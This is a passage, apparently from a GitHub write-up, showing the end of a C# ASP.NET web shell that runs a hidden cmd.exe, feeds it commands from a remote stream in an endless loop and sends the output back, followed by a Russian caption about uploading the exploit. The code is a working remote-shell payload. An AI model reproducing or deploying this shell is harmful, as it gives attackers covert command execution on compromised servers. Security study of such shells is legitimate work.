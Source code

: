 ```
				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

Загрузка эксплойта
![x_upload](screenshots/01.upload.x.png)
